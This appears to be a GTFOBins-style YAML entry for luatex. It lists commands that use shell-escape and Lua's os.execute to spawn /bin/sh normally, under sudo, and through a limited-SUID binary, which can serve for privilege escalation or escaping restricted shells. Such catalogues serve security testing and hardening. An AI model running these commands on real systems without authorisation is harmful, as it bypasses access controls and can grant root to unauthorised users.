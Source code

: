 ```yaml
---
description: This allows to execute [`lua`](/ptbins/lua/) code.
functions:
  shell:
    - code: luatex -shell-escape '\directlua{os.execute("/bin/sh")}\end'
  sudo:
    - code: sudo luatex -shell-escape '\directlua{os.execute("/bin/sh")}\end'
  limited-suid:
    - code: ./luatex -shell-escape '\directlua{os.execute("/bin/sh")}\end'
---
```


